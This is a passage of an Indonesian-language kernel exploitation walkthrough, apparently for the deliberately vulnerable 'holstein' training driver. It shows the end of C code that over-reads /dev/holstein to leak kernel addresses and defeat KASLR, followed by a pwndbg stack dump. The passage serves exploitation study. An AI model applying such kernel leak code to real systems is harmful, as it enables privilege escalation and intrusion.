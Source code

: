 ```c
    puts("/dev/holstein terbuka");
  }

  //membocorkan kernel base
  printf("[*] tahap pertama, leaked\n");
  char buff[0x500];
  memset(buff,'A',0x480);
  read(global_fd,buff,0x410);

  for(int i=0;i < 0x480; i++){
     printf("[*]leaked = %d-> 0x%x: 0x%016lx\n",i,i,*(unsigned long*)(buff + i));
  }

}

int main()
{
    leak();

    return EXIT_SUCCESS;
}

```


kita menemukan address yang menarik disini:

```bash
 ► 0 0xffffffffc0000069
   1 0xffffffff8113d33c
   2      0x100000000
   3 0xffff88800334aa00
   4 0xffff88800334aa00
   5   0x7ffccb164280
   6            0x410
   7              0x0
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/40gx $rsp
0xffffc90000567eb0:	0xffffffff8113d33c	0x0000000100000000
0xffffc90000567ec0:	0xffff88800334aa00	0xffff88800334aa00
0xffffc90000567ed0:	0x00007ffccb164280	0x0000000000000410
0xffffc90000567ee0:	0x0000000000000000	0xffffc90000567f20
0xffffc90000567ef0:	0xffffffff8113d6e3	0x0000000000000000
0xffffc90000567f00:	0x0000000000000000	0xffffc90000567f58
0xffffc90000567f10:	0x0000000000000000	0x0000000000000000
0xffffc90000567f20:	0xffffc90000567f30	0xffffffff8113d775
0xffffc90000567f30:	0xffffc90000567f48	0xffffffff8160bed8
0xffffc90000567f40:	0x0000000000000000	0x0000000000000000
0xffffc90000567f50:	0xffffffff8180007c	0x0000000000000001
0xffffc90000567f60:	0x00000000004ad868	0x00007ffccb1648c8
0xffffc90000567f70:	0x00007ffccb1648b8	0x00007ffccb164790
0xffffc90000567f80:	0x0000000000000001	0x0000000000000246
0xffffc90000567f90:	0x0000000000000001	0x0000000000000000
0xffffc90000567fa0:	0x0000000000000000	0xffffffffffffffda
0xffffc90000567fb0:	0x0000000000421071	0x0000000000000410
0xffffc90000567fc0:	0x00007ffccb164280	0x0000000000000003
0xffffc90000567fd0:	0x0000000000000000	0x0000000000421071
0xffffc90000567fe0:	0x0000000000000033	0x0000000000000246
```
